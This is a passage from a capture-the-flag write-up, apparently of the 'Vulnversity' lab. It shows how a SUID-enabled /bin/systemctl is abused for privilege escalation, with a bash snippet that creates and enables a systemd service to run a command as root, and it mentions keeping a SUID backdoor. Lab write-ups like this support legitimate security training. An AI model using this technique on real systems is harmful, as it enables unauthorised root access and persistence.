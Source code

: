 ![files with suid bit set](.medias/vulnversity/files_with_suid.png)

Aere an interesting file caught my eye, `/bin/systemctl` because Systemctl is the command-line tool that manages the systemd system and service manager in Linux. It lets users control and manage system services and units with commands to start, stop, restart, and check their status.


- After doing some research, I found that If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.
```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```
This code snipped runs the shell with root previlege and stores the id to /tmp/output directory. Let's chech it on our target machine.